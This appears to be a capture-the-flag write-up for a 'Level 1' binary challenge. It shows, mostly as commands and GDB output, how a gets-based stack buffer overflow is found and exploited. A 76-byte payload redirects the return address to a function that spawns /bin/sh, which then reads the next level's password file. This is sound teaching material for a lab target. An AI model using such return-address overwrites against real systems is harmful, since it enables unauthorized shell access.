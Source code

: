 # Level 1

## Initial Context

- One file: `level1`

## Solving the Challenge

Running the file without any argument block on an input.
Entering anything does not seems to anything.

```bash
$ echo | ./level1
$ echo a | ./level1
$ echo hello | ./level1
```

But a lot of characters seems to break it.

```bash
$ python -c 'print "A" * 128' | ./level1
Segmentation fault (core dumped)
```

Let's see with GDB.

```bash
$ gdb ./level1
(gdb) run <<< $(python -c 'print "A" * 128')
Program received signal SIGSEGV, Segmentation fault.
0x41414141 in ?? ()
(gdb) bt
#0  0x41414141 in ?? ()
#1  0x41414141 in ?? ()
#2  0x41414141 in ?? ()
#3  0x41414141 in ?? ()
#4  0x41414141 in ?? ()
#5  0x41414141 in ?? ()
#6  0x41414141 in ?? ()
#7  0x41414141 in ?? ()
#8  0x41414141 in ?? ()
#9  0x41414141 in ?? ()
#10 0x41414141 in ?? ()
#11 0x41414141 in ?? ()
#12 0x41414141 in ?? ()
#13 0x00000000 in ?? ()
```

We can see a corruption of the stack.

By looking at the assembly code, we can see 2 interesting function, `main` and `run`, that are not calling each others.

```
$ objdump -d ./level1
...
08048444 <run>:
...
 8048472:       c7 04 24 84 85 04 08    movl   $0x8048584,(%esp)
 8048479:       e8 e2 fe ff ff          call   8048360 <system@plt>
 804847e:       c9                      leave
 804847f:       c3                      ret

08048480 <main>:
 8048480:       55                      push   %ebp
 8048481:       89 e5                   mov    %esp,%ebp
 8048483:       83 e4 f0                and    $0xfffffff0,%esp
 8048486:       83 ec 50                sub    $0x50,%esp
 8048489:       8d 44 24 10             lea    0x10(%esp),%eax
 804848d:       89 04 24                mov    %eax,(%esp)
 8048490:       e8 ab fe ff ff          call   8048340 <gets@plt>
 8048495:       c9                      leave
 8048496:       c3                      ret
 8048497:       90                      nop
...
```

`main` is using `gets`, which is exploitable since `gets` will store data until it find an EOF without taking into account the buffer size.

By looking at the assembly code, we can see that `main` is also reserving `0x50` bytes for local variables, and is storing the `gets` buffer at an offset of `0x10`. Meaning that the buffer should be `0x50 - 0x10 = 0x40` or `64`. 

We now need to find the number of byte that will be required to break the stack.
This number must be above the buffer size (`64`) and by an increment of 4 (since we are in 32bit).

By slowing incrementing, 80 bytes (20 * 4) seem to break the stack.

```bash
$ gdb ./level1
(gdb) run <<< $(python -c 'print "ABCD" * 20')
Program received signal SIGSEGV, Segmentation fault.
0x44434241 in ?? ()
(gdb) bt
#0  0x44434241 in ?? ()
#1  0x00000000 in ?? ()
```

We can also see that the values are in little-endian since the "string" is reversed.
So by using 76 dummy bytes followed by a valid function address, we can redirect the stack.

The `run` function is located at `0x08048444` (or `44 84 04 08` in LE).

```bash
$ python -c 'print "A" * 76 + "\x44\x84\x04\x08"' | ./level1
Good... Wait what?
Segmentation fault (core dumped)
```

We can see a message, but its still crashing.

By looking further at the `run` function, we can see that it calls `system("/bin/sh")`.
But by using a pipe, stdin is closed right after it finished sending our payload. We need to keep it open.

For that we can first put our payload into a file.
Then we need to read it with `cat`, but with re-reading stdin, and sending everything into the pipe.

```bash
$ python -c 'print "A" * 76 + "\x44\x84\x04\x08"' > /tmp/exploit
$ cat /tmp/exploit - | ./level1
Good... Wait what?
whoami
level2
cat /home/user/level2/.pass
<flag>
```

